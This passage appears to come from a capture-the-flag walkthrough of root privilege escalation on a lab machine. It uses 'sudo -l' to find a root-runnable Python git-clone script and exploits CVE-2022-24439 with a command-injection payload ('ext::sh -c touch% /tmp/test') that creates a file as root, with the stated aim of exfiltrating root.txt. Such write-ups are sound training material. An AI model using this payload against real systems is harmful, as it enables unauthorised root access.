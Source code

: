 ### Using sudo -l to find out we can run a python script as sudo
Lets use sudo -l and see what we get:

```shell
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

It seems like we can run the clone_prod_change.py as sudo.

Lets check the contents of the script:

```shell
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

It seem like this script accepts an URL as a command line and uses git to clone a repository.

### CVE-2022-24439 - Abusing Command Injection vulnerability inside python script to exfiltrate the contents of root.txt

We we will use % to abuse command injection inside this script. These symbols in the command are URL-encoded spaces,, which are known to work on some command injection vulnerabilities, like in this case.

We can abuse this to exfiltrate the contents of root.txt. Lets first see if we can create a test file as root:

```shell
# Create the test file
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/test'

# Check if root created it
ls -al /tmp

# Results - root created it (This means root can access root.txt too)
-rw-r--r--  1 root root    0 Nov 12 21:00 test
```
